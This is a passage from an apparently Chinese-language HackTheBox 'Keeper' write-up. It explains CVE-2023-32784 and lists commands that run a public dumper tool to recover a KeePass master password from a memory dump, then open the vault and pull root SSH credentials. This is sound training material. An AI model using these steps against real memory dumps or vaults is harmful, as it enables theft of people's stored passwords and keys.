 ### KeePass 資料庫

嘗試用常見密碼打開 `.kdbx` 檔案失敗。

但我們有記憶體 dump 檔案！

### CVE-2023-32784 - KeePass Master Password Dumper

KeePass 2.X 版本存在一個嚴重漏洞，可以從記憶體或交換檔案中恢復主密碼。

**漏洞原理：**
- KeePass 在處理主密碼時會將字符逐個加入 SecureString
- 每個字符的殘留數據會留在記憶體中
- 可以通過模式匹配恢復密碼（除了第一個字符）

### 使用 POC 工具

```bash
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run ~/KeePassDumpFull.dmp
```

輸出：

```
Found: ●ødgrød med fløde
```

第一個字符是未知的（用 ● 表示），但後面的字符是清晰的。

### 破解主密碼

`ødgrød med fløde` 看起來像丹麥語。Google 搜索發現這是一道丹麥傳統甜點：

**Rødgrød med fløde** （紅漿果布丁配奶油）

嘗試完整密碼：

```bash
keepassxc-cli open passcodes.kdbx
# Enter password: rødgrød med fløde
```

成功打開！

### 提取憑證

```bash
keepassxc-cli show passcodes.kdbx "keeper.htb (Ticketing Server)"
```

找到 root 用戶的 SSH 密鑰和 PuTTY 格式的私鑰！

### PuTTY 私鑰提取

在 Notes 欄位發現完整的 PuTTY 私鑰：
